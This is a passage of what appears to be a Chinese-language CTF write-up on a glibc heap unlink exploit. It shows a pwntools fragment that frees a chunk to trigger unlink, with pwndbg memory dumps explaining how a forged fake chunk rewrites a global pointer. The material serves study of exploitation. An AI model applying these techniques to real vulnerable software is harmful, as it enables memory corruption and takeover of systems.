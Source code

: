 ```python
log.info("Now we have fake chunks, just free chunk3 to change global pointer...")
delete(3)
p.recvuntil("OK")
#gdb,attach(p)
time.sleep(1)
log.success("Global pointer has been changed!")
time.sleep(1)
```

为什么释放chunk3就会触发unlink？

> 在此之前，我们伪造出的fake_chunk是用双向链表与first_chunk和third_chunk相连的，记住这一点。
>

由于fake_chunk和chunk3相邻，而伪造出的fake_chunk是空闲状态，因此chunk3释放时要与fake_chunk合并成一个空闲的大chunk。系统会先将fake_chunk从third_chunk和first_chunk的双向链表中“卸下”，图解如下：

摘除之前：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1601194582198-3bd1d02a-cc0e-42a8-8d06-b5da8ab0ffb0.png)

摘除之后：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1601199961218-504d9647-48f9-4f90-8f1a-d8c6f1e89e17.png)

```python
#摘除之前
pwndbg> x/16gx 0x602138
0x602138:	0x0000000000000000	0x0000000000000000
0x602148:	0x0000000000e05420	0x0000000000e05940
0x602158:	0x0000000000e05980	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

① fake_chunk被摘除时首先执行：first_bk = third_addr，也就是说first_chunk的bk由原来指向fake_chunk地址更改成指向third_chunk地址：

```python
#摘除第一步完成，first_chunk
pwndbg> x/16gx 0x602138
0x602138:	0x0000000000000000	0x0000000000000000
0x602148:	0x0000000000e05420	0x0000000000602140
            #fd                 #bk
0x602158:	0x0000000000e05980	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

